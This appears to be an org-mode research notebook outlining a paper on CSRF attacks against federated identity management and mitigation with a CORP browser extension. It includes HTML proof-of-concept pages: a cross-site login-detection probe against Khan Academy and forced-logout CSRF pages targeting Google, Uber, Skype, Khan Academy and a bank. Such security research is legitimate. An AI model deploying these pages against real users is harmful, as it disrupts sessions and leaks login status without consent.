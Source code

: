 * Paper Outline
** Working Title: Modeling and Mitigation of CSRF Attacks on FIM
- Summary of Abstract
** TODO Abstract
1/2 page
- Summary of Intro
*** Working Abstract:
Our abstract for now(verify) is something like this: we are showing that FIM is
not an all-encompassing security measure. CSRF attacks can still be carried out
on the application as that isnt even part of the model(here demo of regular
csrf attacks on intentionally vulnerable website). In addition FIM is weak to
another csrf attack: logout. Both these problems can be mitigted(hopefully)
using corp
** Introduction
2-3 pages
- Summary of paper
- Motivation
- Related Work
- 
** Motivation(Pitch)
- Why is it important
** Related Work
** Method and Technique
- What is FIM
** Modeling
- How we modeled it alloy
** Experimentation
- Implementation of experiments
** Conclusion
** Future Outlook





* Experiment
** Generic
*** Vulnerabilities Check
**** CSRF
**** Click jacking
**** cross site timing attack
- Mitigate atacks using corp extension. 
how: 
- fix one website, then based on e
*** Mitigation tests
- using corp extension

  
* Mitigation
Check with corp extension in chrome

* Robin Linus
- all the websits which use FIM, are vulnerable to click jacking which they are
  on the robin linus site.



* Attack 1 : Cross-Site Timing Attack
- Use with Khanacademy: if logged in logo will show up else not;.
#+BEGIN_SRC html :tangle khanacademychecklogin.html
<html>
  <head><title>Khanacademy Check Login Attack</title></head>
  <body>
    <img src="https://www.khanacademy.org/login?continue=%2Ffavicon.ico"/>
  </body>
  
</html>
#+END_SRC
* Attack Khanacademy Logout:
#+BEGIN_SRC html :tangle khanacademylogout.html
<html>
<head><title>Khanacademy Logout Attack</title></head>
<body>
<img src="https://khanacademy.org/logout?contine=/"/>
</body>
</html>
#+END_SRC
* Attack Google Logout
#+BEGIN_SRC html :tangle googlelogout.html
<html>
<head><title>Google Logout Attack</title></head>
<body>
<img src="https://accounts.google.com/logout"/>
</body>
</html>
#+END_SRC
* Uber logout
#+BEGIN_SRC html :tangle  uberlogout.html
<html>
<head><title>Uber Logout</title></head>
<body>
<img src="https://riders.uber.com/logout"/>
</body>
</html>
#+END_SRC
* Skype logout
#+BEGIN_SRC html :tangle skypelogout.html
<html>
<head><title>Skype Logout</title></head>
<body>
<img src="https://secure.skype.com/portal/logout"/>
</body>
</html>
#+END_SRC
* Super logout
#+BEGIN_EXAMPLE
https://superlogout.com
#+END_EXAMPLE
* SBI logout
* IOB logout
#+BEGIN_SRC html :tangle ioblogout.html
<html>
<head><title>IOB Logout</title></head>
<body>
<img src="https://www.iobnet.co.in/ibanking/logout.do">
</body>
</html>
#+END_SRC
